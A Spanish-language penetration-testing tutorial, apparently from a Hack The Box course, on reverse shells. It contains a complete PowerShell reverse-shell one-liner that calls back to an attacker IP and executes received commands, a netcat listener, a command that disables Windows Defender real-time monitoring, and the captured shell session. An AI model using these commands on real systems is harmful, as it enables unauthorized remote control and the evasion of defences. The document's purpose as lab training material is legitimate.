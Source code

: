# Reverse Shells

Con una reverse shell, la **caja de ataque** tendrá un "listener" (escucha) en ejecución, y el **objetivo** necesitará iniciar la conexión.

En muchos casos de sistemas vulnerables, es más probable que un administrador pase por alto conexiones salientes, lo que nos da una mejor oportunidad de no ser detectados. En contraste, las bind shells dependen de conexiones entrantes permitidas por el firewall del lado del servidor, lo cual es difícil de ejecutar en un entorno real.

Como se muestra en la imagen, al iniciar un "listener" para una concha inversa en nuestra caja de ataque, usamos algún método (como la carga de archivos no restringida o la inyección de comandos) para forzar que el objetivo inicie una conexión hacia nuestra caja, haciendo que la caja de ataque se convierta en el **servidor** y el objetivo en el **cliente**.

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

No siempre necesitamos reinventar los payloads (comandos y código). Herramientas como el **Reverse Shell Cheat Sheet** contienen listas de comandos y generadores de shells inversas automatizadas que podemos usar en la práctica o en compromisos reales. Sin embargo, muchos administradores conocen estos recursos, por lo que podrían ajustar sus controles de seguridad para detectarlos. En algunos casos, necesitaremos personalizar nuestros ataques.

## Trabajando con una concha inversa en Windows

Vamos a establecer una concha inversa simple usando PowerShell en un objetivo Windows.

### **Caja de ataque (servidor)**

```bash
sherlock28@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
```

Usamos el puerto 443, común para conexiones HTTPS, ya que rara vez los equipos de seguridad bloquean este puerto. Sin embargo, firewalls avanzados con inspección de paquetes y visibilidad en la capa 7 pueden detectar conchas inversas en puertos comunes.

Una vez que el objetivo Windows esté activo, conectamos usando RDP.

> **Nota:** Netcat no es nativo en Windows, por lo que no podemos contar con él directamente. Idealmente, usamos las herramientas nativas del sistema.

Podemos usar un simple **one-liner** de PowerShell para crear una concha inversa.

### **En el objetivo Windows (cliente)**

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```powershell
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
```

El antivirus de Windows Defender bloqueó el código, como es de esperar desde el punto de vista defensivo. Desde la perspectiva ofensiva, tenemos algunos obstáculos si el antivirus está habilitado.

### **Deshabilitar el antivirus**

Podemos deshabilitar el antivirus con la siguiente línea en una consola de PowerShell administrativa:

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Una vez deshabilitado, ejecutamos de nuevo el código.

### **Caja de ataque (servidor)**

```bash
sherlock28@htb[/htb]$ sudo nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.129.36.68 49674

PS C:\Users\htb-student> whoami
ws01\htb-student
```

Hemos establecido con éxito la concha inversa y podemos interactuar con el sistema. Intenta ejecutar algunos comandos estándar de Windows para practicar.
